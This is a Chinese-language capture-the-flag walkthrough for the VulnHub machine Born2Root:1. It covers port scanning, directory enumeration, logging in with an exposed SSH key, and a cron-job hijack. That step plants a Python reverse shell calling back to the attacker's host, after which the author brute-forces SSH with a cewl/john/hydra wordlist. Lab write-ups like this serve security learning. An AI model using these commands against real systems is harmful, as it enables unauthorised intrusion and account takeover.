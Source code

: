 



<https://www.vulnhub.com/entry/born2root-1,197/>







```bash
$ export rip=10.0.2.40
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42589/udp   status
|   100024  1          44269/udp6  status
|   100024  1          59185/tcp6  status
|_  100024  1          60456/tcp   status
60456/tcp open  status  1 (RPC #100024)

```

端口80

![1](https://static.iihack.com/vulnhub/197/1.jpg)

获得用户名三个 `martin hadi jimmy`

访问robots.txt获得两个目录

![2](https://static.iihack.com/vulnhub/197/2.jpg)

两个目录都无有用信息

```bash
$ gobuster dir --url http://10.0.2.40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .php 
```

![3](https://static.iihack.com/vulnhub/197/3.jpg)

访问`icons`目录发现目录可访问

![4](https://static.iihack.com/vulnhub/197/4.jpg)

发现ssh登录认证密钥

![5](https://static.iihack.com/vulnhub/197/5.jpg)

## 获得权限

### martin

![6](https://static.iihack.com/vulnhub/197/6.jpg)

这就尴尬了，查一下这个异常报错是因为DSA密钥的问题，可以[修改配置文件](https://www.cnblogs.com/fly2wind/p/15640719.html) 或者ssh登录时加参数 `-o PubkeyAcceptedKeyTypes=+ssh-rsa`

![7](https://static.iihack.com/vulnhub/197/7.jpg)

咋的，还得输入密码，目测是`.bashrc` 加了登录启动脚本，回车一下绕过了，还是看看这个脚本

![8](https://static.iihack.com/vulnhub/197/8.jpg)

下载文件发现`wget`和`curl`都不能用

还是修改`.ssh/config`添加`PubkeyAcceptedKeyTypes +ssh-rsa`

![9](https://static.iihack.com/vulnhub/197/9.jpg)

通过sftp上传linpeas.sh和pspy

通过linpeas.sh发现

![10](https://static.iihack.com/vulnhub/197/10.jpg)

`jimmy`权限每隔五分钟运行`/tmp/sekurity.py`去/tmp目录发现文件不存在，那就新建文件反弹shell了

新建文件`/tmp/sekurity.py` 内容为

```python
import sys, socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.24', 444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

过了几分钟收到反弹shell

![11](https://static.iihack.com/vulnhub/197/11.jpg)







```
$ cewl -w pass http://10.0.2.40/

```

看了看，把`martin hadi jimmy`也加到pass里

使用john生成增强字典



```
$ john --wordlist=pass --rules=best64 --stdout >pass2
```



使用hydra爆破用户hadi的密码

```
$ hydra -l hadi   -P pass2  -f 10.0.2.40 ssh
```

![12](https://static.iihack.com/vulnhub/197/12.jpg)

## 提权

登录上去发现文件`.gdb_history`应该是直接可以获得root权限

![13](https://static.iihack.com/vulnhub/197/13.jpg)